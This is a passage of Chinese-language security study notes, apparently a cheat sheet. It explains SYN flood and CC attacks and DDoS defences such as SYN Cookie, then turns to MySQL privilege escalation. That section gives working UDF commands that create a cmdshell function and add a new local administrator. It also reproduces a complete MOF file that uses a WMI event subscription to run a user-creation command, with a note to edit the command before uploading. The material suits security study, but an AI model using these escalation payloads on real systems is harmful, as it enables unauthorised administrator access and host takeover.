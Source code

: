 伪造大量的源IP地址，分别向服务器端发送大量的SYN包，此时服务器端会返回SYN/ACK包，因为源地址是伪造的，所以伪造的IP并不会应答，服务器端没有收到伪造IP的回应，会重试3～5次并且等待一个SYNTime（一般为30秒至2分钟），如果超时则丢弃这个连接。攻击者大量发送这种伪造源地址的SYN请求，服务器端将会消耗非常多的资源（CPU和内存）来处理这种半连接，同时还要不断地对这些IP进行SYN+ACK重试。最后的结果是服务器无暇理睬正常的连接请求，导致拒绝服务。

* CC攻击原理
对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务端资源的目的。

* DDOS防护
SYN Cookie/SYN Proxy、safereset等算法。SYN Cookie的主要思想是为每一个IP地址分配一个“Cookie”，并统计每个IP地址的访问频率。如果在短时间内收到大量的来自同一个IP地址的数据包，则认为受到攻击，之后来自这个IP地址的包将被丢弃。

### 提权

* mysql两种提权方式

udf提权,mof提权

Mysql_UDF提权

要求: 1.目标系统是Windows(Win2000,XP,Win2003)； 2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 3.有root账号密码 导出udf: MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数 可以再mysql里输入 select @@basedir show variables like ‘%plugins%’ 寻找mysql安装路径 提权:

使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；

create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);

drop function cmdshell;
该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

Mysql mof提权
```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```
其中的第18行的命令，上传前请自己更改。
